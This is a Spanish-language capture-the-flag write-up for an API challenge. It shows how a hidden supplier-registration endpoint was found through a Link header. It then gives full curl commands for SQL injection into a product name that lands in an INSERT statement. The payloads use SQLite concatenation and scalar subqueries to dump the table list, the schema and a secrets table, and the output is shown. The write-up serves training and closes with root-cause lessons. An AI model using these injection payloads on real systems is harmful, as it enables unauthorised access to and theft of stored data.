

# 🔓 Supply Chain Reaction — Writeup


|**Categoría**|API|
|**Dificultad**|Medium|
|**Puntos**|305|
|**Plataforma**|fluidattacks.ctf.ae|
|**Instancia**|`da44c680f3514718.chal.ctf.ae`|
|**Flag**|`flag{5782981ea55bf252}`|
![[Pasted image 20260704173350.png]]
> [!quote] Descripción del reto A product catalog API pulls in data from its trusted supplier partners. Trusted. Partners. Not every endpoint made it into the docs.

---

## 🧭 TL;DR

La API expone un flujo de registro de _suppliers_ que **no aparece en la documentación oficial** — se descubre vía el header HTTP `Link`. Una vez registrado como supplier "de confianza", los nombres de producto enviados se insertan en la base de datos **sin sanitizar**, a diferencia del parámetro `search` (público) que sí usaba consultas parametrizadas correctamente.

Como el punto de inyección vive dentro de un `INSERT ... VALUES(...)` y no de un `SELECT`, la técnica clásica `UNION SELECT` no aplica. La solución fue usar el operador de concatenación de SQLite (`||`) junto con una subconsulta escalar para filtrar el esquema completo de la base de datos y, finalmente, el contenido de una tabla `secrets`.

---

## 🗺️ Diagrama del ataque



---

## Fase 1 — Reconocimiento

```bash
curl -sk "https://da44c680f3514718.chal.ctf.ae/api/docs" | python3 -m json.tool
```

Reveló 3 endpoints documentados y una nota clave:

```json
{
  "endpoints": [
    {"method": "GET",  "path": "/api/products",       "description": "List all products in the catalog"},
    {"method": "GET",  "path": "/api/products/<id>",  "description": "Get a specific product by ID"},
    {"method": "POST", "path": "/api/products/sync",  "description": "Trigger a sync with registered supplier feeds"}
  ],
  "note": "Not all endpoints are documented here."
}
```

> [!note] Pista clave _"Not all endpoints are documented here"_ — señal directa de que hay más superficie de ataque fuera de lo listado.

```bash
curl -sk "https://da44c680f3514718.chal.ctf.ae/api/products" | python3 -m json.tool
```

Devolvió 5 productos base, todos con `"supplier": "internal"`.

> [!tip] Nota técnica El certificado TLS de la instancia estaba expirado (`curl: (60) SSL certificate ... has expired`). Solución: usar el flag `-k` / `--insecure` en todas las peticiones.

---

## Fase 2 — Vías exploradas que **no** funcionaron

Documentar los callejones sin salida también importa — así se descarta terreno con evidencia, no por suposición.

### SQLi en `?search=`

```bash
curl -sk "https://da44c680f3514718.chal.ctf.ae/api/products?search='"
curl -sk "https://da44c680f3514718.chal.ctf.ae/api/products?search=1' OR '1'='1"
curl -sk "https://da44c680f3514718.chal.ctf.ae/api/products?search=' AND SLEEP(3)-- -"
```

Siempre `{"count":0,"products":[]}`, sin retraso ni error. **Parametrizado correctamente** — descartado.

### SSRF en `POST /api/products/sync`

```bash
curl -sk -X POST ".../api/products/sync" -H "Content-Type: application/json" -d '{"url": "http://httpbin.org/delay/5"}'
```

Probado con 10+ nombres de campo distintos (`url`, `feed_url`, `webhook`, `callback_url`, etc.), JSON malformado, y sin `Content-Type`. **Siempre la misma respuesta en ~0.4s**, sin importar el contenido → el body **se ignora por completo**. Descartado.

### Enumeración de IDs

```bash
for id in 0 6 7 8 9 10 100 999; do curl -sk ".../api/products/$id"; done
```

Todos devolvieron `{"error":"Product not found"}` limpio. Sin IDOR, sin leak de stack trace.

### SSTI en el nombre del producto

Probado `{{7*7}}` como nombre de producto vía el flujo de supplier (ver Fase 4) — se guardó **literal**, nunca se evaluó como `49`. No es Server-Side Template Injection.

---

## Fase 3 — El endpoint oculto

Las cabeceras de respuesta suelen filtrar más que el body. Probando con `curl -I`:

```bash
curl -sk -I "https://da44c680f3514718.chal.ctf.ae/api/products"
```

```
Server: Werkzeug/3.1.8 Python/3.12.13
X-Powered-By: ProductCatalog/2.4.1
Link: </api/supplier/register>; rel="supplier-registration", </api/docs>; rel="documentation"
```

🎯 `/api/supplier/register` — el endpoint no documentado que mencionaba la nota.

---

## Fase 4 — Convertirse en "supplier confiable"

```bash
curl -sk "https://da44c680f3514718.chal.ctf.ae/api/supplier/register"
```

```json
{"required_fields": {"company_name": "Your company name", "contact_email": "Contact email address"}}
```

Registro:

```bash
curl -sk -X POST "https://da44c680f3514718.chal.ctf.ae/api/supplier/register" \
  -H "Content-Type: application/json" \
  -d '{"company_name": "TestCo", "contact_email": "test@test.com"}'
```

```json
{"status": "registered", "supplier_id": "4a16d3fa", ...}
```

Con el `supplier_id`, se descubre el siguiente paso (header `X-Supplier-ID` requerido):

```bash
curl -sk -X POST "https://da44c680f3514718.chal.ctf.ae/api/supplier/products" \
  -H "X-Supplier-ID: 4a16d3fa" -H "Content-Type: application/json" -d '{}'
```

```json
{"error": "Request body required", "required_fields": {"name": "Product name", "price": "Product price (number)"}}
```

---

## Fase 5 — Confirmando la inyección SQL

Producto de prueba, con una comilla simple para "romper" sintaxis:

```bash
curl -sk -X POST "https://da44c680f3514718.chal.ctf.ae/api/supplier/products" \
  -H "X-Supplier-ID: 4a16d3fa" -H "Content-Type: application/json" \
  -d '{"name": "Injected'"'"' OR '"'"'1'"'"'='"'"'1", "price": 1}'
```

Tras disparar el sync (`POST /api/products/sync`) y revisar `/api/products`, el nombre guardado fue literalmente:

```json
{"id": 7, "name": "1", "price": 1.0, "supplier": "4a16d3fa"}
```

> [!success] Confirmación `'Injected' OR '1'='1'` se **evaluó como expresión SQL** (booleano → `1`), no se guardó como texto. Esto prueba que el campo `name` se concatena directamente en una sentencia SQL sin parametrizar — a diferencia de `search`.

### ¿Por qué falló `UNION SELECT`?

```bash
-d '{"name": "x'"'"' UNION SELECT 1,2,3,4-- ", "price": 1}'
```

Estos productos se quedaban perpetuamente en `pending_sync` y nunca llegaban a `/api/products`. Motivo: el punto de inyección está dentro de un `INSERT INTO products (...) VALUES (...)`, no de un `SELECT ... WHERE`. `UNION SELECT` solo es válido en contexto `SELECT`, así que rompe la sintaxis del `INSERT` y esa fila falla silenciosamente.

---

## Fase 6 — Explotación con concatenación + subconsulta escalar

La técnica correcta para un contexto `VALUES(...)`: usar el operador `||` (concatenación en SQLite) para envolver una subconsulta que sí es válida ahí — una **subconsulta escalar**.

**1. Listar tablas:**

```bash
curl -sk -X POST "https://da44c680f3514718.chal.ctf.ae/api/supplier/products" \
  -H "X-Supplier-ID: 4a16d3fa" -H "Content-Type: application/json" \
  -d '{"name": "x'"'"' || (SELECT group_concat(name) FROM sqlite_master WHERE type='"'"'table'"'"') || '"'"'y", "price": 1}'
```

→ tras sync: **`xproducts,sqlite_sequence,secretsy`** 🎯 tabla `secrets` encontrada.

**2. Volcar el esquema completo:**

```bash
curl -sk -X POST "https://da44c680f3514718.chal.ctf.ae/api/supplier/products" \
  -H "X-Supplier-ID: 4a16d3fa" -H "Content-Type: application/json" \
  -d '{"name": "x'"'"' || (SELECT group_concat(sql) FROM sqlite_master) || '"'"'y", "price": 1}'
```

→ reveló:

```sql
CREATE TABLE products (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT NOT NULL, price REAL NOT NULL, supplier TEXT DEFAULT 'internal')
CREATE TABLE secrets (id INTEGER PRIMARY KEY, key TEXT NOT NULL, value TEXT NOT NULL)
```

**3. Extraer key + value de `secrets`:**

```bash
curl -sk -X POST "https://da44c680f3514718.chal.ctf.ae/api/supplier/products" \
  -H "X-Supplier-ID: 4a16d3fa" -H "Content-Type: application/json" \
  -d '{"name": "x'"'"' || (SELECT group_concat(key || '"'"':'"'"' || value) FROM secrets) || '"'"'y", "price": 1}'
```

Tras el sync final:

```json
{"id": 12, "name": "xapi_flag:flag{5782981ea55bf252}y", "price": 1.0, "supplier": "4a16d3fa"}
```

> [!success] 🚩 FLAG `flag{5782981ea55bf252}`

---

## 📋 Resumen de endpoints

|Método|Ruta|¿Documentado?|Hallazgo|
|---|---|---|---|
|GET|`/api/docs`|✅|Info general de la API|
|GET|`/api/products`|✅|`search` parametrizado de forma segura — sin SQLi|
|GET|`/api/products/<id>`|✅|Sin IDOR, 404 limpio|
|POST|`/api/products/sync`|✅|El body se ignora por completo — sin SSRF|
|GET/POST|`/api/supplier/register`|❌ Oculto|Descubierto vía header `Link` → obtiene `supplier_id`|
|GET/POST|`/api/supplier/products`|❌ Oculto|Requiere `X-Supplier-ID` — **`name` vulnerable a SQLi en INSERT**|

---

## 🎓 Causa raíz y lecciones

> [!warning] Causa raíz El endpoint público `search` usa consultas parametrizadas correctamente. Pero el pipeline de ingesta de datos de _suppliers_ — marcados internamente como "trusted" — concatena el campo `name` directamente dentro de un `INSERT INTO products (...) VALUES (...)` sin escapar. La confianza otorgada a "partners registrados" no debería significar menos validación: sigue siendo input externo.

> [!tip] Técnica reutilizable Cuando la inyección cae en un contexto `INSERT ... VALUES(...)` en vez de `SELECT ... WHERE`, `UNION SELECT` no sirve. La alternativa es concatenación de string (`||` en SQLite, `CONCAT()`/`+` en otros motores) envolviendo una **subconsulta escalar**: `'x' || (SELECT ...) || 'y'`. El resultado se refleja como si fuera parte del dato original, ideal para exfiltración cuando no hay acceso directo a los mensajes de error del motor SQL.